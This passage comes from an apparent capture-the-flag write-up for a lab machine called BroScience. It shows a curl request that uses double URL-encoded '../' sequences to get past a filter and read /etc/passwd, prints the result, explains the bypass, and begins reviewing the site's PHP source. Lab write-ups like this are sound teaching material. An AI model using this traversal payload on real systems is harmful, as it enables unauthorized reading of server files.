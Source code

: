 

These six requests seem to return data. I'll try one in Firefox:



    oxdf@hacky$ curl -k https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    _laurel:x:998:998::/var/log/laurel:/bin/false



#### Payload Analysis

These payloads seem to bypass the filter by double URL-encoding the `/`
in `../`. The first URL encode takes `/` --\> `%2f`. The next URL encode
(just of the `%`) takes `%` --\> `%25`, making the entire `../` into
`..%252f`. Decoing this once will give `..%2f`, and then again will give
`../`.

### Site Enumeration

#### index.php

`../index.php` pull the source for the main site. In the header, there's
references to `/includes/header.php` and `/includes/utils.php`:



    <?php
    session_start();
    ?>

    .md>
        <head>
            <title>BroScience : Home</title>
            <?php 
            include_once 'includes/header.php';
            include_once 'includes/utils.php';
            $theme = get_theme();
            ?>
            <link rel="stylesheet" href="styles/<?=$theme?>.css">
        </head>
    ...[snip]...



Next the body has some setup, and the connection to the database:



    ...[snip]...
        <body class="<?=get_theme_class($theme)?>">
            <?php include_once 'includes/navbar.php'; ?>
            <div class="uk-container uk-margin"> 
                <!-- TODO: Search bar -->
                <?php
                include_once 'includes/db_connect.php';
    ...[snip]...
